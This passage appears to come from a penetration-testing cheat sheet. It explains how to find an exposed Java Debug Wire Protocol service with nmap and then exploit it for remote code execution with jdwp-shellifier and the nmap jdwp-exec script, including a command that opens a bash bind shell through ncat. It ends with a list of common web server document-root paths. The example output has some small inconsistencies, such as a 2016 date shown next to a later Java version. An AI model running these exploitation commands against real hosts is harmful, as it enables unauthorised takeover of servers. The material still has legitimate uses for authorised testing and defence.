 <i/>Note: The Java Debug Wire Protocol lacks of authentication and encryption mechanisms.</i>
```
➤ Step 1. Use the NMAP port scanner to discover a Java Debug Wire Protocol (JDWP) interface exposed on your target network.
          Examples:
	   $ nmap -sV <target-IP> -p 0-65535
	     <SNIP>
	     PORT     STATE SERVICE VERSION
	     8000/tcp open  jdwp    Java Debug Wire Protocol (Reference Implementation) version 1.6 1.6.0_17

	   $ nmap-sT <target> -p <port> --script=+jdwp-info
	     PORT     STATE SERVICE REASON
	     2010/tcp open  search  syn-ack
	     | jdwp-info:
	     |   Available processors: 4
	     |   Free memory: 15331736
	     <SNIP>
	     |   Name of the OS: Windows 2016
	     <SNIP>
	     |   java version 1.8.0_421
	     <SNIP>

➤ Step 2. Exploit the open JWDP service to perform a remote code execution (RCE) and compromise the underlying server

	   + Example 1 - Using the tool "jdwp-shellifier" (https://github.com/IOActive/jdwp-shellifier)
	     $ ./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' 					# Exec something
	     $ ./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash'   # Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept

	   + Example 2 - Using the NSE NMAP script "jdwp-exec" which allows to inject and execute a Java class file that executes the supplied shell command and returns its output.
	     $ nmap -sT <target> -p <port> --script=+jdwp-exec --script-args cmd="date"
	     <SNIP>
	     PORT     STATE SERVICE REASON
	     8000/tcp open  search  syn-ack
	     | jdwp-exec:
	     |   date output:
	     |   Sat Aug 19 12:21:11 Central European Daylight Time 2016
	     |_

```
-----------------

### III. List of common paths for the DocumentRoot directory (Web root directory)
```
➤ XAMP (Windows) = "c:\XAMPP\htdocs"
➤ IIS (Windows) = "C:\inetpub\wwwroot"
➤ Websphere (Windows) = "c:/program files/ibm http server/htdocs" or "C:\WebSphere\IHS"
➤ Apache(Linux) = '/var/www' (configuration found in the file '/etc/httpd/conf/httpd.conf' or '/etc/apache2/sites-available/default')
➤ Apache(Linux) = "/var/www/html/example.com/"
➤ Apache(Unix) = “/usr/local/Apache2.2/htdocs”
➤ Apache(Windows) =  “C:/Program Files/Apache Software Foundation/Apache2.2/htdocs/”
➤ NGINX (Linux) = '/data/www' or '/data/w3' or "/usr/local/nginx/html' (configuration files can be found in the directory: '/usr/local/nginx/conf' or /etc/nginx' or '/usr/local/etc/nginx')
```
